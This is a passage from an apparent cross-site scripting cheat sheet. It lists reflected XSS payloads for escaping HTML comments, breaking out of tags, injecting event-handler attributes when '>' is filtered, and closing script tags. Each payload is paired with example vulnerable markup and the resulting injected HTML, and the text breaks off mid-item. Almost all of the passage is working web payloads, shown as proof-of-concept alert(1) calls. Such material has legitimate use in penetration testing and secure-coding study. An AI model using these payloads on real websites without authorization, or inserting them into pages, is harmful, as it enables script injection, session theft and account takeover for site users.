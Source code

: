 3. Add --> to escape the payload if input lands in HTML comments.

```html
--><script>alert(1)</script>
```

- Example source code

```html
<!-- REFLECTED_HERE --> 
```

- After input the payload

```html
<!-- --><script>alert(1)</script> -->
```

4. Add when the input inside or between opening/closing tags, tag can be `<a>,<title>,<script>` and any other HTML tags

```html
</tag><script>alert(1)</script>
"></tag><script>alert(1)</script>
```

- Example source code

```html
<a href="https://target.com/1?status=REFLECTED_HERE">1</a>
```

- After input the payload

```html
<a href="https://target.com/1?status="></a><script>alert(1)</script>">1</a>
```

5. Use when input inside an attribute’s value of an HTML tag but > is filtered

```html
" onmouseover=alert(1)
" autofocus onfocus=alert(1)
```

- Example source code

```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

- After input the payload

```html
<input id="keyword" type="text" name="q" value="" onmouseover=alert(1)">
```

6. Use </script> when input inside `<script>` tags

```html
</script><script>alert(1)</script>
```

- Example source code
